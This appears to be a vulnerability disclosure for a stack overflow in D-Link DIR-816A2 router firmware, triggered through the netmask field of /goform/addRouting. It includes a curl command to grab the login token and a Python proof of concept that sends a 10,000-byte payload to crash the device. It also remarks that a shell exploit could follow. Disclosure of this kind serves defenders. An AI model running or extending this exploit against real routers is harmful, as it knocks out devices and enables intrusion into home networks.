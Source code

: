 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/addRouting.  The content obtained by netmask parameter is passed to V3, and then the content matched by V3 is write into the V13 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)


## Vulnerability verify

![](img/3.png#center)

![](img/4.png#center)

## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests


tokenid = ''

url = 'http://192.168.0.1/goform/addRouting'

payload = b'a' * 10000

data = {
    'tokenid': tokenid,
    'dest': '1.1.1.1',
    'netmask': payload
}

print('payload sending...')
r = requests.post(url, data)
print('end')
```

You can see the router crash, and finally you can write an exp to get a shell